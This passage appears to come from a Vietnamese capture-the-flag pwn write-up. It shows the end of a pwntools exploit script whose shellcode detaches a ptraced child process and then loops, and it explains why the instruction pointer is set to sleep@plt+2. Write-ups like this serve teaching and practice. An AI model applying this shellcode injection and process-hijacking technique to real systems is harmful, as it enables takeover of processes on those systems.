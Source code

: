 ```python 
loop l1
mov rdi, {PTRACE_DETACH}
mov rsi, {child_pid}
mov rdx,0
mov r10,0
mov rax,0x65
syscall
l:
	nop
jmp l
		""")
code_ = create(len(shellcode)+8,7,shellcode)
log.success(f"{hex(code_)}")
sleep(2)
exec_(code_)
sleep(5)
p.interactive()
```

Ở đây trước khi commit PTRACE_SETREGS cho process con, mình gửi signal stop cho chắc ăn.

Nếu để ý bạn sẽ thấy mình ghi đè $rip = `sleep@plt + 2 `thay vì `sleep@plt` , mình sẽ không đi sâu giải thích ( gợi ý là `sleep@plt + 4` thì mới có opcode jmp tới got và độ dài opcode của `syscall` là 2 bytes ).

![image](https://github.com/robbert1978/robbert1978.github.io.old/assets/31349426/72846272-82b7-42ef-8c6e-2a5e9a9b7816)

